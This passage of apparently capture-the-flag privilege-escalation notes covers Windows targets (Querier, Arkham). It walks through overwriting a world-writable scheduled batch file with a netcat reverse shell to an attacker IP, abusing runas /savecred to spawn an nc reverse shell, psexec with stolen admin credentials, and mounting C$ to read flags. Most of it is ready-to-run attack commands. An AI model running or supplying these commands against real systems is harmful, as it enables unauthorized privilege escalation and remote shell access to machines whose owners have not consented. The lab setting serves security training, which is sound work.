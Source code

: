 ```
schtasks /query /fo LIST /v
```

![](broken-reference)

We see C:\SVCcheck\SVCcheck.bat will be executed every 5 mins... Check the file permission

```
cacls "C:\SVCcheck\SVCcheck.bat"
```

![](broken-reference)

Everyone has the full rights.

Now spawn your reverse shell to SVCcheck.bat by echo

```
echo "C:\Documents and Settings\albert\nc.exe" -nv 192.168.39.31 80 -e C:\WINDOWS\System32\cmd.exe > "C:\SVCcheck\SVCcheck.bat"
```

Then just simply wait for 5 mins you'll get the reverse shell.

### runas  <a href="#runas-and-privilege-escalation" id="runas-and-privilege-escalation"></a>

You can check if administrator needs no password by&#x20;

```
net user administrator
```

![](broken-reference)

Then you can simply make ncat reverse shell by runas&#x20;

```
runas /user:Administrator /savecred "nc.exe -c cmd.exe 10.10.xx.xx 1337"
```

```
nc -lnvp 1337
```

If you already got the administrator password, you can simply try psexec by running cmd as Administrator and get a shell.

```
runas /netonly /user:QUERIER\Administrator cmd.exe
psexec \\querier.htb cmd
```

#### Mounting C$ Manullay in case you can't access root.txt even with an adminstrator account.

```
net use Z: \\ARKHAM\C$
Z:
type root.txt
```
